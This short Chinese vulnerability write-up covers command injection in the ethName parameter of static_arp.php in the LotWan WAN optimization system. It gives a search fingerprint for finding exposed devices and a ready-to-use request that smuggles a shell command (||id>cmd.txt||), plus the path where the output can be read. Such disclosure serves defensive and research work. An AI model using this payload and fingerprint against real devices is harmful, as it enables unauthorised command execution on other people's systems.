 # 

# 华夏创新 LotWan广域网优化系统 static_arp.php 远程命令执行漏洞

## 漏洞描述

华夏创新 LotWan广域网优化系统 static_arp.php文件参数 ethName存在命令拼接，导致远程命令执行漏洞

## 漏洞影响

```
华夏创新 LotWan广域网优化系统
```

## 网络测绘

```
title="LotWan 广域网优化系统"
```

## 漏洞复现

登录页面

![image-20220519182832800](./images/202205191828884.png)

存在漏洞的文件为

```
/acc/bindipmac/static_arp.php?ethName=||id>cmd.txt||
```

![image-20220519182841776](./images/202205191828819.png)

再访问 `/acc/bindipmac/cmd.txt`

![image-20220519182859597](./images/202205191828666.png)
